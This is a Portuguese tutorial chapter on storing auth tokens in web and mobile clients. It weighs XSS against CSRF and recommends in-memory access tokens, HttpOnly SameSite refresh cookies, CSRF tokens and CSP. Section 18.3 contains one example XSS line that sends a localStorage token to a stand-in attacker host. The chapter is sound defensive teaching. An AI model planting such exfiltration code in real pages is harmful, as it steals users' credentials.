

# 18 · Onde guardar o token no cliente

> Nível: intermediário · Atualizado em 14/08/2026
> A pergunta mais feita e pior respondida do assunto.

---

## 18.1 · A pergunta errada

"`localStorage` ou cookie?" é a pergunta que todo mundo faz. Ela é errada porque
pressupõe que existe uma resposta única. A pergunta certa é:

> **Contra qual ataque eu estou me protegendo, e qual eu aceito?**

Há dois ataques em jogo, e eles puxam para lados **opostos**:

| Ataque | O que é | Quem sofre |
|---|---|---|
| **XSS** | código do atacante executa na sua página | tudo que o JavaScript alcança |
| **CSRF** | outro site faz o navegador enviar uma requisição autenticada | tudo que o navegador envia sozinho |

`localStorage` é imune a CSRF e totalmente exposto a XSS.
Cookie é imune a XSS (se `HttpOnly`) e exposto a CSRF (se mal configurado).

Não existe escolha sem trade-off. Existe escolha informada.

---

## 18.2 · As opções, com veredito

| Onde | XSS lê? | CSRF? | Sobrevive a recarregar? | Veredito |
|---|---|---|---|---|
| `localStorage` | **sim** | não | sim | ❌ evite para credencial |
| `sessionStorage` | **sim** | não | só na aba | ❌ idem, com menos alcance |
| Variável JavaScript (memória) | sim, **enquanto a página vive** | não | **não** | ✅ para o access token |
| Cookie sem `HttpOnly` | **sim** | sim | sim | ❌ pior dos dois mundos |
| Cookie `HttpOnly` + `Secure` + `SameSite` | **não** | mitigado | sim | ✅ para o refresh token |
| IndexedDB | **sim** | não | sim | ❌ mesma exposição, mais complexidade |
| *Service worker* | parcialmente | não | sim | 🟡 avançado; ver 18.7 |

---

## 18.3 · Por que `localStorage` é ruim para credencial

`localStorage` é legível por **qualquer** JavaScript da sua origem:

```js
// numa página com XSS, isto é uma linha:
fetch('https://atacante.com/roubo?t=' + localStorage.getItem('token'));
```

E "qualquer JavaScript da sua origem" inclui muito mais do que o seu código:

- toda biblioteca npm da sua árvore de dependências — e a árvore média de um projeto
  React passa de 1.000 pacotes;
- todo script de terceiro na página: analytics, chat de suporte, pixel de anúncio,
  gerenciador de tags;
- toda extensão de navegador com permissão para a sua página;
- qualquer `dangerouslySetInnerHTML` mal usado, qualquer `eval`, qualquer
  renderização de Markdown sem sanitização.

**O contra-argumento que você vai ouvir**, e que merece resposta séria:

> "Se tem XSS, já era de qualquer forma. O atacante pode fazer requisições
> autenticadas mesmo com cookie `HttpOnly`."

**Verdade parcial, e a diferença importa muito.** Com XSS e cookie `HttpOnly`, o
atacante age **de dentro da sua página, enquanto ela está aberta**: cada ação passa
pelo seu CSP, pelo seu CORS, pelos seus limites de taxa, e para no instante em que a
aba fecha. Com o token em `localStorage`, o atacante **exfiltra a credencial** e a
usa do servidor dele, por semanas, sem passar por nada disso — e o refresh token
mantém a sessão viva indefinidamente.

A diferença é entre *sessão sequestrada enquanto a aba está aberta* e *credencial
roubada de forma persistente*. Não é a mesma coisa, e a segunda é muito pior.

---

## 18.4 · O padrão recomendado

```
┌──────────────────────────────────────────────────────────┐
│  Access token  →  variável JavaScript (memória)          │
│    · vida curta (15 min)                                  │
│    · morre ao fechar a aba                                │
│    · XSS alcança, mas só enquanto a página vive           │
│                                                           │
│  Refresh token →  cookie HttpOnly; Secure; SameSite=Strict│
│                   Path=/auth/refresh                      │
│    · JavaScript NÃO enxerga                               │
│    · só é enviado à rota de renovação                     │
│    · sobrevive a recarregar e a fechar o navegador         │
└──────────────────────────────────────────────────────────┘
```

```js
// no servidor, ao emitir:
res.setHeader('set-cookie', [
  'refresh_token=' + segredo,
  'HttpOnly',                 // JavaScript não lê
  'Secure',                   // só por HTTPS
  'SameSite=Strict',          // não é enviado em navegação vinda de outro site
  'Path=/auth/refresh',       // nem sequer viaja nas outras rotas
  'Max-Age=1209600',
].join('; '));
```

**Por que o `Path` restrito é subestimado.** Com `Path=/auth/refresh`, o cookie não é
enviado em nenhuma outra requisição. Menos superfície (um XSS que faz uma requisição
para `/api/*` não leva o refresh junto), menos bytes por requisição, e o cookie não
aparece em log de rota nenhuma além daquela.

**Como o access token sobrevive a um F5, se está em memória?** Não sobrevive — e não
precisa. Ao carregar a aplicação, chame `/auth/refresh` uma vez: o navegador envia o
cookie sozinho e você recebe um access token novo. O custo é uma requisição no
carregamento; o ganho é que a credencial de longa duração nunca esteve ao alcance do
JavaScript.

---

## 18.5 · `SameSite`, explicado

O atributo que resolve CSRF na maioria dos casos.

| Valor | Comportamento | Quando usar |
|---|---|---|
| `Strict` | nunca enviado em requisição originada de outro site | **rota de refresh** |
| `Lax` | enviado em navegação de topo com GET; não em POST nem em sub-recurso | padrão dos navegadores desde 2020 |
| `None` | sempre enviado (**exige `Secure`**) | só quando o front está em outro domínio |

**O caso doloroso: front e API em domínios diferentes.**
`app.exemplo.com` chamando `api.exemplo.com` ainda é *same-site* (mesmo site
registrável), então `SameSite=Strict` funciona. Mas `app.vercel.app` chamando
`api.exemplo.com` é *cross-site*, e exige `SameSite=None; Secure` — o que reabre o
CSRF e obriga a defesa adicional da seção 18.6.

**Recomendação de arquitetura:** ponha front e API sob o mesmo site registrável. Um
subdomínio ou um caminho no mesmo domínio resolve o problema inteiro de cookies, CORS
e CSRF de uma vez. Vale mais que qualquer mitigação posterior.

---

## 18.6 · CSRF: quando ainda é preciso se defender

Com `SameSite=Strict` no cookie de refresh **e** o access token indo num cabeçalho
`Authorization` (que o navegador nunca envia sozinho), o CSRF praticamente desaparece:
para forjar a requisição, o atacante precisaria escrever o cabeçalho, e isso o CORS
impede.

Quando ainda é necessário defender-se:

- você usa `SameSite=None` (front em outro site);
- você autentica por cookie em vez de cabeçalho;
- você precisa suportar navegadores antigos.

**Defesa: *double submit cookie*.**

```js
// no login, além do cookie de sessão:
res.setHeader('set-cookie', `csrf=${valorAleatorio}; Secure; SameSite=Lax; Path=/`);
// (sem HttpOnly — o JavaScript PRECISA ler este)

// no cliente, em toda requisição que modifica estado:
fetch('/api/pedidos', {
  method: 'POST',
  headers: { 'x-csrf-token': lerCookie('csrf') },
  credentials: 'include',
});

// no servidor:
if (req.headers['x-csrf-token'] !== lerCookie(req, 'csrf')) return res.status(403).end();
```

Funciona porque outro site consegue fazer o navegador **enviar** o cookie, mas não
consegue **lê-lo** para copiar no cabeçalho — a política de mesma origem impede.

---

## 18.7 · Aplicativos móveis e desktop

O problema é outro: não há `HttpOnly`, e o armazenamento é do sistema.

| Plataforma | Onde guardar | Nota |
|---|---|---|
| iOS | **Keychain**, com `kSecAttrAccessibleAfterFirstUnlockThisDeviceOnly` | cifrado pelo sistema; não vai para backup se marcado |
| Android | **EncryptedSharedPreferences** ou Keystore | evite `SharedPreferences` puro |
| React Native | `react-native-keychain` | **não** use `AsyncStorage` |
| Flutter | `flutter_secure_storage` | — |
| Electron | `safeStorage` do Electron | não guarde em arquivo JSON simples |
| CLI | arquivo com permissão 600 em `~/.config/<app>/` | **nunca** em variável de ambiente exportada |

**Em móvel, prefira também o fluxo *authorization code* com PKCE**, e nunca embuta
segredo de cliente no aplicativo — qualquer pessoa extrai as strings do APK/IPA em
minutos.

---

## 18.8 · O que **nunca** fazer

| Prática | Por quê |
|---|---|
| Token na URL (`?token=...`) | vai para o histórico, para o log do servidor, para o `Referer` de todo link externo, e para o *analytics* |
| Token em `localStorage` sem prazo | credencial persistente ao alcance de qualquer script |
| Token em cookie **sem** `HttpOnly` | pior dos dois mundos: XSS lê e CSRF envia |
| Token gravado em log | os logs vazam, são compartilhados e ficam anos |
| Token colado num site de depuração | é uma credencial viva; use `jwt-cli` offline |
| Token em `window.__ESTADO__` do SSR | vai no HTML, que pode ser cacheado por CDN e servido a outra pessoa |
| Refresh token acessível a JavaScript | anula toda a proteção do `HttpOnly` |

O caso do SSR merece destaque porque é um erro moderno e caro: um token embutido no
HTML renderizado no servidor, com o HTML cacheado pela CDN, é **o token de uma pessoa
servido a todas as outras**.

---

## 18.9 · Árvore de decisão



---

## 18.10 · Camadas que reduzem o dano do XSS

Guardar bem o token é a última linha. As anteriores importam mais:

**1. Content Security Policy.** Impede a execução de script injetado e a exfiltração.

```
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'nonce-{aleatório}';
  connect-src 'self' https://auth.exemplo.com;
  object-src 'none'; base-uri 'none'; frame-ancestors 'none'
```

O `connect-src` é o que mais importa aqui: mesmo que um script rode, ele não consegue
enviar dados para `atacante.com`.

**2. `Trusted Types`** (Chromium): bloqueia atribuições perigosas a `innerHTML` no
nível da plataforma.

**3. Sanitize toda entrada renderizada como HTML.** Markdown de usuário, campos de
perfil, nome de arquivo.

**4. Auditoria de dependências.** `npm audit` no CI, e uma política sobre quantos
scripts de terceiro a página carrega. Cada `<script src>` de terceiro é uma chave da
sua aplicação nas mãos de outra empresa.

**5. Subresource Integrity** para scripts externos que você não pode remover.

---

## Autoteste

1. Por que "localStorage ou cookie?" é a pergunta errada? Qual é a certa?
2. Quais dois ataques puxam a decisão para lados opostos?
3. Responda ao argumento "se tem XSS, já era de qualquer jeito". Qual é a diferença
   concreta?
4. Descreva o padrão recomendado, com os atributos exatos do cookie.
5. Por que `Path=/auth/refresh` é mais útil do que parece?
6. Como o access token sobrevive a um F5, se ele fica em memória?
7. Quando `SameSite=Strict` não é possível, e o que fazer nesse caso?
8. Por que o *double submit cookie* funciona?
9. Por que token na URL é sempre errado? Cite três lugares onde ele vaza.
10. Por que um token embutido no HTML de SSR com cache de CDN é catastrófico?
